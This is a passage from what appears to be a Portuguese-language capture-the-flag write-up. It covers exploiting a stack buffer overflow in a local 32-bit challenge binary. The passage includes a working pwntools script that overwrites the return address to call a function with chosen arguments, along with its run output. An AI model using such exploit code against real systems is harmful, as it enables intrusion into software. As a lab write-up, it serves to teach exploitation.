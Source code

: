 Como o ghidra não está me ajudando muito, eu poderia tentar essas 2 funções e ver o que imprime. A primeira coisa que precisamos saber é o endereço da função.
Bom, o ghidra está dizendo que o endereço da primeira função é `0x8049256` com base no nome da função.

Esta função tem 2 argumentos sabendo que em 32 bits os argumentos vão para a pilha, é fácil. Eu posso ver que o primeiro argumento deve ser igual a `0x9c` e o segundo `300`, então vamos fazer um script `exploit.py`:

```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

f1 = pwn.p32(0x8049256)      # function address
f1arg1 = pwn.p32(0x9c)       # 1st argument
f1arg2 = pwn.p32(300)        # 2nd argument

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + function address + 'JUNK' + first argument + second argument
"""
payload = buff.encode() \
    + f1 \
    + 'JUNK'.encode() \
    + f1arg1 \
    + f1arg2

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```

Ok, este exploit vai nos devolver:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 976
=========================
what the process returned
Enter your buffer: gotcha func1

```
